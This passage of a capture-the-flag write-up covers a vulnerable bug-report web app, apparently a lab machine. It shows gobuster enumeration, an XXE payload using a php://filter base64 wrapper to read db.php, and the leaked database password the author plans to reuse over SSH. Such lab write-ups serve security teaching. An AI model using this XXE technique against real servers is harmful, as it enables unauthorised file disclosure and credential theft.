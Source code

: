 ```
===============================================================
2021/07/28 18:48:15 Starting gobuster
===============================================================
/index.php (Status: 200)
/resources (Status: 301)
/assets (Status: 301)
/portal.php (Status: 200)
/css (Status: 301)
/db.php (Status: 200)
/js (Status: 301)
```

We have three files with a status code of 200. The last one `db.php` sounds very promissing. If we adapt our proof of concept above to read `db.php` we will
get nothing. This could be because the file is not in the current working directory or more likly because it is a .php file. It gets interpreted from the webserver and
won't display it's content to us. But we can use a php-filter in our XXE attack to encode the data to base64 first. 

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php">]>
                <bugreport>
                <title>&xxe;</title>
                <cwe>1234</cwe>
                <cvss>1234</cvss>
                <reward>1234</reward>
                </bugreport>
```

![burp-4.png](burp-4.png)

And there we have it. Some base64 encoded data. Decoding it gives us some credentials. Since password reuse is a thing, I'll try to use it to ssh into the machine as the user "development".

```php
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

